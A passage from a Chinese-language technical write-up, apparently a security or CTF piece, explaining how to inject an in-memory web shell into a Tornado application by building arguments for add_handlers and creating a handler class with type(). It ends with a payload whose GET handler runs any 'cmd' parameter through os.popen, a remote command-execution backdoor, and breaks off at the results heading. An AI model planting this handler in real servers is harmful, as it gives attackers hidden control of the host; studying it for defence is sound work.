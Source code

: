 既然有一个现成的函数可供调用，那么就可以放弃去直接操作列表，转而考虑怎么来构造这个函数的参数。

### 3.3 参数构造

首先看到这个函数声明接受两个参数 `host_pattern` 和 `host_handlers`，其中 `host_pattern` 是一个字符串没有什么需要多考虑的，这个场景下直接构造 `.*` 匹配所有域名即可，而第二个参数 `host_handlers` 较为复杂一点，类型为 `_RuleList`，查看一下这个类型定义。

```python
_RuleList = List[
    Union[
        "Rule",
        List[Any],  # Can't do detailed typechecking of lists.
        Tuple[Union[str, "Matcher"], Any],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any]],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any], str],
    ]
]
```

在 `add_rules` 中，整个传入的值都会被作为构造参数来实例化一个 `Rule` 对象，构造函数如下：

```python
def __init__(
    self,
    matcher: "Matcher",
    target: Any,
    target_kwargs: Optional[Dict[str, Any]] = None,
    name: Optional[str] = None,
) -> None:
```

第一个参数类型为 `Matcher`，如果自己来构造的话会比较麻烦，但是看到 `add_rules` 中的处理，会判断一次传入值，如果是 `tuple` 或者 `list` 并且第一个值是字符串，那么就会调用一次 `PathMatches` 返回一个 `Matcher` 对象，所以这里考虑直接传入路由字符串，让系统来做一次自动转换。

接下来考虑路由对应的 `handler`, 这往往需要是一个 `tornado.web.RequestHandler` 的子类，那么这里可以直接使用 `type` 函数来创建一个对应基类的对象，当 `type` 函数接受三个参数时，第一个参数为类名，第二个参数为基类元组，第三个参数为类属性/方法的字典，函数原型如下：

```python
@overload
def __init__(self, name: str, bases: tuple[type, ...], dict: dict[str, Any], /, **kwds: Any) -> None: ...
```

所以使用下面的payload即可创建一个合法 `RequestHandler`。

```python
type(
    'ShellHandler',
    (tornado.web.RequestHandler,),
    {
        'get': lambda self: self.write(__import__('os').popen(sef.get_argument('cmd', 'id')).read()) 
    }
)
```

### 3.4 结果
